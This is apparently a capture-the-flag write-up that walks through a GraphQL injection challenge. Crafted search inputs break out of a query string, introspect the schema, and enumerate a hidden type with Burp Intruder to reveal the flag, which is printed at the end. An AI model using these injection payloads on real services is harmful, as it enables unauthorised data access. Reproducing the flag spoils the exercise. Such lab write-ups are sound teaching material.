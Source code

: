 ```yaml
---
layout: default
title: GraphQL-Injection
---
```


Here, we can see the request is: `q=Iran` and answer is:

```graphql
{
    "data":{
        "rockets":[
            {
                "name":"Safir",
                "country":"Iran",
                "is_active":1
            },
            {
                "name":"Qased",
                "country":"Iran",
                "is_active":1
            }
        ]
    }
}
```

Okay, it's looks like `GraphQL`.
Let's assume the request is looks like this: `
```gql
query {
    getRockets(country: "$input"){
        name
        country
        is_active
    }
}
```
So, let's give this payload: `Iran"){name}} #`, and see what we get:
```gql
{
    "data":{
        "rockets":[
            {
                "name":"Safir"
            },
            {
                "name":"Qased"
            }
        ]
    }
}
```
Working!!!

Let's do `GraphQL Injection`.

We will give this input: `q=Iran"){name}__schema {types{name}}}#`, then, the query will look like this:
```gql
query {
    getRockets(country: "Iran"){
        name
    }
    __schema{
        types{
            name
        }
    }
}# <- here is the comment ->
        name
        country
        is_active
    }
}
```
And all what comes after the comment will be ignored.

We can see this `HackerInSpace` type, so let's look inside it: `q==Iran"){name}__type(name: "HackerInSpace"){name fields {name}}}#`

We get this as response:
```gql
"__type":{
    "name":"HackerInSpace",
    "fields":[
            {
            "name":"hacker_id"
            },
            {
                "name":"hacker_value"
            }
        ]
    }
```

Okay, so let's try: `q==Iran"){name}HackerInSpace(hacker_id:1){hacker_id hacker_value}}#` and just use burp intruder to change id.
![build secret](./images/GraphQL-Injection_build_secret.png)

the result: `Congraatulations, you can use this flag: RM{3esy_gr@phql_b@ck3nd_1nj3ct10n}`

**Flag:** **_`RM{3esy_gr@phql_b@ck3nd_1nj3ct10n}`_**
